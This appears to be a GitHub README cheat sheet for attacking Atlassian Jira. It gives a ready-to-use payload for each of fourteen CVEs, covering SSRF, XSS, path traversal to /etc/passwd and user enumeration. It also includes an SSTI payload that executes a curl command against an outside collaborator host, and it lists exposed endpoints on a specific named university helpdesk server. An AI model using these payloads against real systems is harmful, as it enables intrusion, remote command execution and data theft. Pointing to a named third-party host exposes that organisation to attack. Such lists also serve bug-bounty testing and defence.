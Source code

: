 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2018-5230 (XSS)
**3** | CVE-2018-20824 (XSS)
**4** | CVE-2019-3396 (Path Traversal)
**5** | CVE-2019-3402 (XSS)
**6** | CVE-2019-3403 (User Enumeration)
**7** | CVE-2019-8442 (Sensitive Information Disclosure)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-8451 (SSRF)
**10** | CVE-2019-11581 (SSTI)
**11** | CVE-2020-14178 (Project Key Enumeration)
**12** | CVE-2020-14179 (Sensitive Information Disclosure)
**13** | CVE-2020-14181 (User Enumeration)
**14** | CVE-2020-36289 (Username Enumeration)
**15** | Tools
**16**| Reports

___
#### CVE-2017-9506 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```

##### CVE-2018-5230 (XSS)
```
http://<JIRA>/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm
```
#### CVE-2018-20824 (XSS)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

#### CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```


#### CVE-2019-3402 (XSS)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

#### CVE-2019-3403 (User Enumeration)
```
Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
```

#### CVE-2019-8442 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

#### CVE-2019-8449 (User Information Disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

#### CVE-2019-8451 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
b. Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
```

#### CVE-2020-14181 (User Enumeration)

```
Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>
```
#### CVE-2020-36289 (Username Enumeration)
```
Navigate to <JIRA_URL>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
```
```
 For target.atlassian(.)net, check this endpoints: 
/servicedesk/customer/user/signup [Able to login? Vuln:)]
/jira/projects [Can see projects? Vuln:) Now click on sign in and use OAuth]
```

```
jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular
```

```
jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100
```

```
Resolution found
/rest/api/2/resolution
```

```

Admin Project Dashboard Accessible
https://mtihelpdesk.eng.monash.edu/rest/menu/latest/admin

```

```
Project Group Found
https://mtihelpdesk.eng.monash.edu/rest/api/2/projectCategory?maxResults=100
```

```
Medium - Service Desk Signup Enable 
https://mtihelpdesk.eng.monash.edu/servicedesk/customer/user/signup
```

```
LOW - Query Componet Field
```












#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
[Automation Script](https://github.com/MayankPandey01/Jira-Lens) 

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
* https://hackerone.com/reports/713900
* https://hackerone.com/reports/139970
* https://hackerone.com/reports/197726
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
